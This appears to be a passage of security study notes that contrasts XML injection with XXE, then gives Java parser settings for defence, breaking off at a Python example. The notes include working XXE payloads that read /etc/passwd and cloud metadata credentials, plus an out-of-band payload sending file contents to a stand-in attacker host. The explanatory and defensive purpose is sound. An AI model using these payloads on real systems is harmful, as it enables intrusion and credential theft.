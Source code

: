 #### **XML Injection vs. XXE**

  * **XML Injection**: Manipulates the structure of an XML document to insert nodes like `isAdmin`, attacking the application's business logic.
  * **XXE (XML External Entity) Injection**: Exploits the 'external entity' feature of XML, causing the server to load external resources to read internal server files or scan the internal network. **This is the real threat.**

#### **Exploiting XXE**

XXE occurs by declaring an external entity through a DTD (Document Type Definition).

1.  **File Disclosure (Classic XXE)**: Exfiltrates local files from the server.

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck><productId>&xxe;</productId></stockCheck>
    ```

    When the payload above is sent, the XML parser replaces `&xxe;` with the content of the `/etc/passwd` file and includes it in the response.

2.  **SSRF (Server-Side Request Forgery)**: Causes the server to make requests to internal or external networks on behalf of the attacker. It is very effective for attacking Metadata APIs (`http://169.254.169.254`) in cloud environments.

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
    <stockCheck><productId>&xxe;</productId></stockCheck>
    ```

3.  **Blind XXE (Out-of-band)**: When there is no direct response, data is exfiltrated by loading an external DTD.

    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://your-server.com/?file=%file;'>">
    %eval;
    %exfiltrate;

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://your-server.com/evil.dtd"> %xxe;]>
    <stockCheck><productId>123</productId></stockCheck>
    ```

#### **Defensive Strategies**

The defense methods for XXE are very clear. You must include the following in your report.

1.  **Disable External Entities and DTDs**: The most certain and fundamental solution is to disable external entity and DTD processing by changing the XML parser's settings. Most modern XML parsers have this disabled by default, but it is often enabled in legacy systems.

      * **Java Example:**
        ```java
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        // Core settings to prevent XXE
        dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
        dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        dbf.setXIncludeAware(false);
        dbf.setExpandEntityReferences(false);
        ```
      * **Python (lxml) Example:**
        ```python
        from lxml import etree